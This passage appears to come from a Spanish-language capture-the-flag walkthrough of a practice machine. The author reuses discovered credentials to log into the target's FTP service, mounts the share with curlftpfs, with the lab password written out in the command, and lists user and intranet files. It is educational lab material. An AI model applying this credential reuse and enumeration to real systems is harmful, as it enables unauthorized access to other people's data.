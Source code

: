 Leyendo un poco, vemos que se le está solicitando al usuario **Rahul** subir archivos usando la cuenta **ftp_user**. Por lo que ya a este punto, contamos con posibles credenciales válidas de acceso al servicio FTP, así que vamos a probarlas:

```bash
❯ ftp 10.10.10.59
Connected to 10.10.10.59.
220 Microsoft FTP Service
Name (10.10.10.59:k4miyo): ftp_user
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-31-17  10:51PM       <DIR>          From-Custodian
10-01-17  10:37PM       <DIR>          Intranet
08-28-17  05:56PM       <DIR>          Logs
09-15-17  08:30PM       <DIR>          To-Upload
09-17-17  08:27PM       <DIR>          User
226 Transfer complete.
ftp> 
```

Vemos varios directorios dentro del servicio FTP. Para trabajar un poco más cómodos y poder visualizar todos los recursos, vamos a crearnos una montura con la herramienta `curlftpfs` (**Nota**: Si no tenemos la herramienta, la podemos instalar con `apt-get install curlftpfs`):

```bash
❯ mkdir /mnt/ftp
❯ curlftpfs ftp_user:UTDRSCH53c\"\$6hys@10.10.10.59 /mnt/ftp/
```

Ahora accedemos a la ruta en nuestro sistema `/mnt/ftp` y podemos visualizar el contenido del servicio FTP de la máquina víctima.

```bash
❯ cd /mnt/ftp/
❯ ll
d--------- root root 0 B Thu Aug 31 23:51:00 2017  From-Custodian
d--------- root root 0 B Sun Oct  1 23:37:00 2017  Intranet
d--------- root root 0 B Mon Aug 28 18:56:00 2017  Logs
d--------- root root 0 B Fri Sep 15 21:30:00 2017  To-Upload
d--------- root root 0 B Sun Sep 17 21:27:00 2017  User
```

Si ejecutamos el comando `tree` nos aparecerá mucha información, por lo que vamos a filtrarla omitiendo aquellos archivos que tengan **RED-** y **ftp_connect**:

```bash
❯ tree | grep -i -v -E "red-|ftp_connect"
.                                                               
├── From-Custodian
├── Intranet                                                    
│   └── Binaries
│       └── Firefox Setup 44.0.2.exe
├── Logs                                                                  
├── To-Upload         
│   ├── employees-id_number.xlsx
│   └── Invoices.zip      
└── User     
    ├── Administrator           
    │   └── New folder
    ├── Ekta                                                    
    │   ├── OFSI_quick_guide_flyer.pdf
    │   └── PSAIS_1_April_2017.pdf
    ├── Jess                                                    
```